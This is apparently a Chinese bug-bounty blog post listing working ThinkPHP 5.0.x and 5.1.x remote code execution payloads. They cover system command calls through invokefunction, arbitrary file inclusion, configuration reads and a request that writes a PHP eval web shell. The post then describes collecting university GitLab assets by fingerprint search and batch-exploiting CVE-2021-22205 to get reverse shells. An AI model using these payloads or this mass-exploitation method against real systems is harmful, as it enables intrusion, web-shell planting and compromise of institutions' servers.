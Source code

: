 一些payload:  
  
**5.1.x**  
  
：  

```
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

  
**5.0.x**  
  
：  

```
?s=index/think\config/get&name=database.username # 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

  
写入 shell  

```
public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=../shell.php&vars[1][]=<?php @eval($_REQUEST[cmd]);?>
```

  
**然后然后，讲一下我一些思路，使用一些Nday来快速上分，或者挖掘逻辑漏洞实现通杀**  
  
**关于Nday这里举俩个例子大家自行体会**  
  
**比如说你知道有一个cve 比方说这个gitlab的cve：gitlab-CVE-2021-22205，gitlab显而易见的是很多高校都有这个gitlab的托管网站**  
  
**所以说我们只要把所有gitlab edu上的资产全部搜集过来然后利用脚本一一检测就了**  
  
**这里说一下怎么搜集的**  
  
**先从图标下手，限定edu域名：可以看到有17条资产  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK7C9oVgOBoX4R1RE00tQDtQRoNECCic1bVuJEkfhrwcRdX0CH9lv0kQFv1DibM7aXx9S4GuAhCAAuZg/640?wx_fmt=png&from=appmsg "")  
  
限定ip有27条资产  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK7C9oVgOBoX4R1RE00tQDtQ6IYydJ6DZ6n5OfPeER4R3eMkQEeLLA3oFtHAyTTI7FVJn0iarM7ibAFA/640?wx_fmt=png&from=appmsg "")  
  
去除图标的有45条资产  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK7C9oVgOBoX4R1RE00tQDtQ4Ctq7luniaNmax9LpnWJIlQO3Ij18tr2icAUO1JrJE7Ah2hzZGVzniaAg/640?wx_fmt=png&from=appmsg "")  
  
把数据全部导出收集到一起，利用github上的脚本进行检测，这样就捡到俩个洞，因为gitlab这个cve是可以反弹shell的，所以12rank到手  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK7C9oVgOBoX4R1RE00tQDtQYZLpSCnUibuhTUTvEdH3KM5ndWVwEC1CN3ibZl0QEKVSV2PGzBicDiaS8Q/640?wx_fmt=png&from=appmsg "")  
  